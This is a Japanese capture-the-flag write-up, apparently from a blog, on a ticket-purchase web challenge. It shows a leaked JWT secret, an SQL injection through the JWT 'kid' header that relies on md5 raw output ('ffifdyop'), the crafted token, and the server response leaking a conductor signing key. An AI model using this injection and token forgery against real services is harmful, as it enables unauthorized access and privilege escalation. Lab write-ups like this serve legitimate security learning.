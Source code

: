 エラー内容からConductorのみが購入できるようですが、Conductor用の処理は見当たりませんでした。  
また、何らかのハッシュ値とシークレットが確認できます。  
検証すると、エラーに書いてある`a_boring_passenger_signing_key_?`はJWTのシークレットだということがわかりました。

次にソースを確認してみると、JavaScriptのコメントに気になることが書いてあります。  
（コメント的には、SQLインジェクションの脆弱性がありそうな気がします）

```html
<script>
  async function pay() {
    // i could not get sqlite to work on the frontend :(
    /*
      db.each(`SELECT * FROM keys WHERE kid = '${md5(headerKid)}'`, (err, row) => {
      ???????
      */
    const r = await fetch("/pay", { method: "POST" });
    const j = await r.json();
    document.getElementById("alert").classList.add("opacity-100");
    // todo: convert md5 to hex string instead of latin1??
    document.getElementById("alert").innerText = j["message"];
    setTimeout(() => { document.getElementById("alert").classList.remove("opacity-100") }, 5000);
  }
</script>
```

少し試した後、何をやればいいかわからなかったので、ギブアップ。  
どうやら、md5を使ったSQLインジェクションを利用するようです。  
<https://book.hacktricks.xyz/v/jp/pentesting-web/sql-injection#nohasshubaipasu>

md5関数では16進数形式で出力されるから`'`とか出力できないよな...とか勝手に思ってましたが、バイナリ形式で出力されるので問題なく`'`も出せたようです。  
手元で確認すればよかったです。

今回の場合は、例にある`md5('ffifdyop')`を使うことで、keysテーブルのデータを取得できそうです。

kidに`ffifdyop`を入れたJWTを生成します。

```text
{
  "alg": "HS256",
  "kid": "ffifdyop",
  "typ": "JWT"
}
{
  "type": "passenger"
}
```

```text
eyJhbGciOiJIUzI1NiIsImtpZCI6ImZmaWZkeW9wIiwidHlwIjoiSldUIn0.eyJ0eXBlIjoicGFzc2VuZ2VyIn0.zgePz4fg9QKihcFTuT8SEYy0vIwNnIuNSmb7vZuNVrE
```

このJWTを送信すると、エラー内容が以下のようなに変わりました。

```text
{"message":"Sorry passenger, only conductors are allowed right now. Please sign your own tickets. \nhashed \u00f4\u008c\u00f7u\u009e\u00deIB\u0090\u0005\u0084\u009fB\u00e7\u00d9+ secret: conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e\nhashed _\bR\u00f2\u001es\u00dcx\u00c9\u00c4\u0002\u00c5\u00b4\u0012\\\u00e4 secret: a_boring_passenger_signing_key_?","success":false}
```
